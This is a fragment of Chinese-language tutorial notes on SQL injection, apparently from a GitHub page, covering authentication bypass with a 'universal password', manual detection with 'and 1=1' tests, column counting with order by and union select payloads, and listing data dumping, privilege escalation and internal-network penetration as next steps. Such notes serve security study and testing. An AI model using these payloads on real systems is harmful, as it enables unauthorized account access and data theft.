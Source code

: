   - 万能密码

    - 原理:使用`构造方式`绕过参数验证
    - 危害:可以在不知道用户密码的情况下,登录到`任意账户`,包括`管理员账户`

### 手工注入

- 适用情况:在`自动化工具无法起作用`或者`情况复杂`时使用

- 流程:判断漏洞

- ```
  //判断是否有注入漏洞
  
  通过注释["--","#"],闭合[']方式
  通过在参数之间使用add,or来对输入进行判断,是否有语句执行
  '1 and 1=1 --+ //正常显示
  '1 and 1=2 --+ //错误显示
  说明存在注入漏洞
  ```

- 识别注入点类型

- ```
  //获取数据库基本信息(数据库版本[version()],数据库类型,回显数据列数等)
  ?id=-1' order by 10 --+ //使用order by [字段数] 查询出字段数
  ?id=-1' union select 1,2,3 --+ //使用union联合查询,找出字段对应输出位置
  
  可以使用内置函数uesr(),version()等在占位符获取数据库信息
  ```

- 获取`数据库名`,`表名`,`列名`,`用户数据`

- 破解加密数据

- 提升权限

- 内网渗透

### 联合查询

- 定义:使用`拼接联合方式`将2组或多组关键值`拼凑起来`进行查询

- 使用:多条查询语句的`查询列数和数据类型必须一致`,union关键字`默认去重`,如果使用union all 可以包含重复项

- 前提:页面必须要有`显示位`

- 流程:

- ```sql
  //判断注入点
  1 and 1=1 --+	//整型注入点
  1 and 1=2 --+ 	//整型注入点
  1'or '1'='1		//字符型注入点
  1'or '1'='2		//字符型注入点
  
  //判断列数,使用order by判断字段数(二分法)
  1'order by 1 --+ 
  1'order by n --+
  1'or 1=1 order by n --+ 
  